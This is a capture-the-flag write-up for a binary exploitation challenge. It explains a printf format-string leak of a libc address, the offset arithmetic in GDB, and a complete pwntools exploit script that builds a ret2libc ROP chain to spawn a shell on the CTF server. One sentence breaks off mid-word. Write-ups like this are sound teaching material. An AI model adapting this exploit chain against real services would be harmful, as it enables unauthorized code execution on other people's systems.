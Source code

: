 
![image](https://github.com/user-attachments/assets/5a03a650-6da4-4747-ba85-fe3c7be81a3f) \
\
Solved by : Relster

# Technique = Format string leak & Ret2libc

## 1. Checking given file.
Given a zip file that contains 3 files which are _vuln_, _libc.so.6_, and _ld-linux-x86-64.so.2_ \

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/kashi/pwn/trollzone/chall/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
This challenge is pretty trivial like most ret2libc challenges out there. The only difference is that, leaked address would n


## 2. Patching & Analyzing binary.
Patch:\
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```
This should give us the __vuln_patched__ binary.\
\
Running binary:\
![Screenshot 2025-02-27 122548](https://github.com/user-attachments/assets/f0f7093c-3abe-4dbb-b179-cc7300a41a59)
If we continue leaking using '_%p_' format specifier, we'll find an address which still located within the _libc_ memory area and the offset is at the 17th offset (_%17$p_). Note that the address is still in _libc_ memory area but we that leaked address is not a _libc_ _function_ so we'll have to debug it in **GDB** to see nearest address that's a _libc function_. You'll see what i mean in the next image. \
\
Debugging in **GDB**:\
Let's put a __breakpoint__ here and _run_ it.
![Screenshot 2025-02-27 124235](https://github.com/user-attachments/assets/c62b08d1-1360-4b57-ae20-9a151bb14cdd)
\
Type _ni_ and we will be asked for the input, and we'll type _%17$p_ to leak the address as i mention above.
![Screenshot 2025-02-27 124359](https://github.com/user-attachments/assets/f538a9c6-2d97-451b-9c16-1ca9d08b2332)
\
We'll copy that _leaked address_ (_0x7ffff7e0924a_ in this case) and examine nearby address that is hopefully some _libc function_ so that we can subtract the offset of that function to get the base address of _libc_.

\
We can see that the leaked address is close to ___libc_start_main_, from here we just need to do some basic pointer arithmetic to get the address of ___libc_start_main_.\
![Screenshot 2025-02-27 124758](https://github.com/user-attachments/assets/30598f7c-b94c-4326-aed3-b9d1e9809fe2)

It's _0x36_ bytes or 54 bytes in difference between _0x7ffff7e0924a_ and ___libc_start_main_.
![Screenshot 2025-02-27 125317](https://github.com/user-attachments/assets/369b3f2b-3562-4ec9-a786-b87fec311c14)
\

\
From here it's just trivial like traditional _**ret2libc**_ challenges, we'll just subtract the address of ___libc_start_main_ with its offset and voila we get the base address of _libc_.


## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'

TARGET = './vuln_patched'
HOST = 'kashictf.iitbhucybersec.in'
PORT = 55698

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-linux-x86-64.so.2")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

#context.log_level = 'DEBUG'

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #


# STAGE 1 : Leak address from stack using 'printf format string'

fmtstr = b'%17$p'   # leaked libc address is at 17th offset

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
libc_start_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print("Offsets:")
print(f"__libc_start_main : {hex(libc_start_offset)}")
print(f"system            : {hex(system_offset)}")
print(f"/bin/sh           : {hex(binsh_offset)}")
print("==================================")

payload = flat(
    fmtstr,
)
p.sendline(payload)


# STAGE 2 : Clean up the leaked address

p.recvuntil(b'not giving you ')

# Leaking address and find libc base address
leak = p.recvuntil(b'\n').strip().decode()
libc_start_main = int(leak, 16) + 0x36  # this is adjacent (not very adjacent, but close) to the function '__libc_start_main', their difference is 0x36 bytes
libc_base = libc_start_main - libc_start_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked address    : {leak}")
print(f"__libc_start_main : {hex(libc_start_main)}")
print(f"libc_base         : {hex(libc_base)}")
print(f"system            : {hex(system)}")
print(f"binsh             : {hex(binsh)}")


# STAGE 3 : Craft payload from leaked addresses and send it to remote server

# Find pop rdi; ret; in libc
rop_libc = ROP(libc)
pop_rdi = rop_libc.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_addr = libc_base + pop_rdi

# Overflow, set up rdi register with '/bin/sh' string, call system()
pop_shell = flat(
    'A' * 40,
    ret,
    pop_rdi_addr,
    binsh,
    system
)
p.sendline(pop_shell)

p.interactive()
p.close()

# NOTE:
# Format string leak & Ret2libc
```

## 4. Result
Local: \
![Screenshot 2025-02-27 125815](https://github.com/user-attachments/assets/ae521fd4-c5dc-4b94-886c-3771b395ce97)

Remote: \
![Screenshot 2025-02-27 130010](https://github.com/user-attachments/assets/baee9b69-ad94-4a81-abbf-76ec56a10b5d)
Note : I was writing this writeup when the challenge is done, so no flags but the exploitation remains the same.

## Keyword
ret2libc \
_printf_ format string leak
